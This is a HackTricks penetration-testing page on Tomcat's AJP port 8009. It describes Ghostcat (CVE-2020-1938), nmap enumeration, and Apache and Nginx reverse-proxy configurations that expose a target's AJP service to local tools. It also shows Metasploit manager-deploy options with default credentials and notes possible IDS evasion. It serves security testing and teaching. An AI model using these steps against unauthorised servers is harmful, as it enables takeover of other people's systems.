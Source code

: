 # 8009 - Pentesting Apache JServ Protocol (AJP)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof is home to all crypto bug bounties.**

**Get rewarded without delays**\
HackenProof bounties launch only when their customers deposit the reward budget. You'll get the reward after the bug is verified.

**Get experience in web3 pentesting**\
Blockchain protocols and smart contracts are the new Internet! Master web3 security at its rising days.

**Become the web3 hacker legend**\
Gain reputation points with each verified bug and conquer the top of the weekly leaderboard.

[**Sign up on HackenProof**](https://hackenproof.com/register) start earning from your hacks!

{% embed url="https://hackenproof.com/register" %}

## Basic Information

From: [https://diablohorn.com/2011/10/19/8009-the-forgotten-tomcat-port/](https://diablohorn.com/2011/10/19/8009-the-forgotten-tomcat-port/)

> AJP is a wire protocol. It an optimized version of the HTTP protocol to allow a standalone web server such as [Apache](http://httpd.apache.org/) to talk to Tomcat. Historically, Apache has been much faster than Tomcat at serving static content. The idea is to let Apache serve the static content when possible, but proxy the request to Tomcat for Tomcat related content.

Also interesting:

> The ajp13 protocol is packet-oriented. A binary format was presumably chosen over the more readable plain text for reasons of performance. The web server communicates with the servlet container over TCP connections. To cut down on the expensive process of socket creation, the web server will attempt to maintain persistent TCP connections to the servlet container, and to reuse a connection for multiple request/response cycles

**Default port:** 8009

```
PORT     STATE SERVICE
8009/tcp open  ajp13
```

## CVE-2020-1938 ['Ghostcat'](https://www.chaitin.cn/en/ghostcat)

If the AJP port is exposed, Tomcat might be susceptible to the Ghostcat vulnerability. Here is an [exploit](https://www.exploit-db.com/exploits/48143) that works with this issue.

Ghostcat is a LFI vulnerability, but somewhat restricted: only files from a certain path can be pulled. Still, this can include files like `WEB-INF/web.xml` which can leak important information like credentials for the Tomcat interface, depending on the server setup.

Patched versions at or above 9.0.31, 8.5.51, and 7.0.100 have fixed this issue.

## Enumeration

### Automatic

```bash
nmap -sV --script ajp-auth,ajp-headers,ajp-methods,ajp-request -n -p 8009 <IP>
```

### [**Brute force**](../generic-methodologies-and-resources/brute-force.md#ajp)

## AJP Proxy

### Apache AJP Proxy

It’s not often that you encounter port 8009 open and no other web port open. In which case it would be nice to use existing tools like metasploit to still pwn it right? As stated in one of the quotes you can (ab)use Apache to proxy the requests to Tomcat port 8009. In the references you will find a nice guide on how to do that (read it first), what follows is just an overview of the commands I used on my own machine. I omitted some of the original instruction since they didn’t seem to be necessary.

```bash
sudo apt-get install libapache2-mod-jk
sudo vim /etc/apache2/apache2.conf # append the following line to the config
    Include ajp.conf
sudo vim /etc/apache2/ajp.conf     # create the following file, change HOST to the target address 
    ProxyRequests Off
    <Proxy *>
        Order deny,allow
        Deny from all
        Allow from localhost
    </Proxy>
    ProxyPass       / ajp://HOST:8009/
    ProxyPassReverse    / ajp://HOST:8009/
sudo a2enmod proxy_http
sudo a2enmod proxy_ajp
sudo systemctl restart apache2
```

A nice side effect of using this setup is that you might thwart IDS/IPS systems in place since the AJP protocol is somewhat binary, but I haven’t verified this. Now you can just point your regular metasploit tomcat exploit to 127.0.0.1:80 and take over that system. Here is the metasploit output also:

```bash
msf  exploit(tomcat_mgr_deploy) > show options

Module options (exploit/multi/http/tomcat_mgr_deploy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  tomcat           no        The password for the specified username
   PATH      /manager         yes       The URI path of the manager app (/deploy and /undeploy will be used)
   Proxies                    no        Use a proxy chain
   RHOST     localhost        yes       The target address
   RPORT     80               yes       The target port
   USERNAME  tomcat           no        The username to authenticate as
   VHOST                      no        HTTP server virtual host
```

### Nginx Reverse Proxy & AJP

When we come across an open AJP proxy port (8009 TCP), we can use Nginx with the `ajp_module` to access the "hidden" Tomcat Manager. This can be done by compiling the Nginx source code and adding the required module, as follows:

* Download the Nginx source code
* Download the required module
* Compile Nginx source code with the `ajp_module`.
* Create a configuration file pointing to the AJP Port

```bash
# Download Nginx code
wget https://nginx.org/download/nginx-1.21.3.tar.gz
tar -xzvf nginx-1.21.3.tar.gz

# Compile Nginx source code with the ajp module
git clone https://github.com/dvershinin/nginx_ajp_module.git
cd nginx-1.21.3
sudo apt install libpcre3-dev
./configure --add-module=`pwd`/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules
make
sudo make install
nginx -V
```

Comment out the entire `server` block and append the following lines inside the `http` block in `/etc/nginx/conf/nginx.conf`.

```shell-session
upstream tomcats {
	server <TARGET_SERVER>:8009;
	keepalive 10;
	}
server {
	listen 80;
	location / {
		ajp_keep_conn on;
		ajp_pass tomcats;
	}
}
```

Start Nginx and check if everything is working correctly by issuing a cURL request to your local host.

```html
sudo nginx
curl http://127.0.0.1:80

<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <title>Apache Tomcat/X.X.XX</title>
        <link href="favicon.ico" rel="icon" type="image/x-icon" />
        <link href="favicon.ico" rel="shortcut icon" type="image/x-icon" />
        <link href="tomcat.css" rel="stylesheet" type="text/css" />
    </headas
    <body>
        <div id="wrapper">
            <div id="navigation" class="curved container">
                <span id="nav-home"><a href="https://tomcat.apache.org/">Home</a></span>
                <span id="nav-hosts"><a href="/docs/">Documentation</a></span>
                <span id="nav-config"><a href="/docs/config/">Configuration</a></span>
                <span id="nav-examples"><a href="/examples/">Examples</a></span>
                <span id="nav-wiki"><a href="https://wiki.apache.org/tomcat/FrontPage">Wiki</a></span>
                <span id="nav-lists"><a href="https://tomcat.apache.org/lists.html">Mailing Lists</a></span>
                <span id="nav-help"><a href="https://tomcat.apache.org/findhelp.html">Find Help</a></span>
                <br class="separator" />
            </div>
            <div id="asf-box">
                <h1>Apache Tomcat/X.X.XX</h1>
            </div>
            <div id="upper" class="curved container">
                <div id="congrats" class="curved container">
                    <h2>If you're seeing this, you've successfully installed Tomcat. Congratulations!</h2>
<SNIP>
```

## References

* [https://academy.hackthebox.com/module/145/section/1295](https://academy.hackthebox.com/module/145/section/1295)

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof is home to all crypto bug bounties.**

**Get rewarded without delays**\
HackenProof bounties launch only when their customers deposit the reward budget. You'll get the reward after the bug is verified.

**Get experience in web3 pentesting**\
Blockchain protocols and smart contracts are the new Internet! Master web3 security at its rising days.

**Become the web3 hacker legend**\
Gain reputation points with each verified bug and conquer the top of the weekly leaderboard.

[**Sign up on HackenProof**](https://hackenproof.com/register) start earning from your hacks!

{% embed url="https://hackenproof.com/register" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
